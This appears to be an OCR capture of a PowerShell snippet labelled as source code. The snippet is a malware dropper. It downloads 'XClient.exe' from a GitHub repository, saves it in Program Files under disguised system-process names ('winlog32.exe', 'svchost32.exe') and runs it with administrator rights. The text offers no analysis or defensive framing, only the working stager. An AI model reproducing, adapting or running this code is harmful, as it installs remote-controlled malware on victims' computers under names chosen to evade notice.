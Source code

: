 $settings = '{"WD": false, "adminrun": false}'; if ($settings.adminrun) { $outputPath = Join-Path $env:programfiles 'winlog32.exe'; (New-Object System.Net.WebClient).DownloadFile("https://github.com/k9g4/7g6/blob/main/XClient.exe", $outputPath); Start-Process $outputPath -Verb RunAs } else { $outputPath = Join-Path $env:programfiles 'svchost32.exe'; (New-Object System.Net.WebClient).DownloadFile("https://github.com/k9g4/7g6/blob/main/XClient.exe", $outputPath); Start-Process $outputPath -Verb RunAs };
